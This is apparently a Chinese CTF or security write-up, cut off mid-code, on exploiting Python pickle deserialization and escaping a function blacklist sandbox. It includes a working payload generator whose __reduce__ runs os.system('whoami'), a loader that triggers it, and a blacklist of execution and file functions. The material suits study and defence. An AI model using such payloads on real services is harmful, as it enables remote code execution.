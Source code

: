 ```
    return Unpkler(file).load()
```
我把这部分内容分为两部分；反序列化漏洞以及基本的沙箱逃逸问题。

先忽略`unpkler.dispatch[REDUCE]`这一行的内容。
```
from pickle import Unpickler as Unpkler
def load(file):
    unpkler = Unpkler(file)
    \# unpkler.dispatch\[REDUCE\] = \_hook\_call(unpkler.dispatch\[REDUCE\])
    return Unpkler(file).load()
```
这里对`file`进行了反序列化，因此如果`file`可控即可造成危险。

用下面的脚本(exp4.py)进行序列化payload的生成：
```
import os
from pickle import Pickler as Pkler
import commands
class chybeta(object):
    def \_\_reduce\_\_(self):
        return (os.system,("whoami",))    
evil = chybeta()

def dump(file):
    pkler = Pkler(file)
    pkler.dump(evil)

with open("test","wb") as f:
    dump(f)
```
测试反序列化漏洞(exp5.py):
```
from pickle import Unpickler as Unpkler
from io import open as Open 
def LOAD(file):
    unpkler = Unpkler(file)
    return Unpkler(file).load()

with Open("test","rb") as f:
    LOAD(f)
```
![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210716-71472a80-302d-1.jpeg)

不过没那么简单，源码还设置了沙箱/黑名单来防止某些函数的执行，比如前面的os.system就被禁用了，我们修改exp5.py为进一步的测试：
```
from os import *
from sys import *
from pickle import *
from io import open as Open 
from pickle import Unpickler as Unpkler
from pickle import Pickler as Pkler

black\_type\_list = \[eval, execfile, compile, system, open, file, popen, popen2, popen3, popen4, fdopen,
                   tmpfile, fchmod, fchown, pipe, chdir, fchdir, chroot, chmod, chown, link,
                   lchown, listdir, lstat, mkfifo, mknod, mkdir, makedirs, readlink, remove, removedirs,
                   rename, renames, rmdir, tempnam, tmpnam, unlink, walk, execl, execle, execlp, execv,
                   execve, execvp, execvpe, exit, fork, forkpty, kill, nice, spawnl, spawnle, spawnlp, spawnlpe,
                   spawnv, spawnve, spawnvp, spawnvpe, load, loads\]

class FilterException(Exception):
```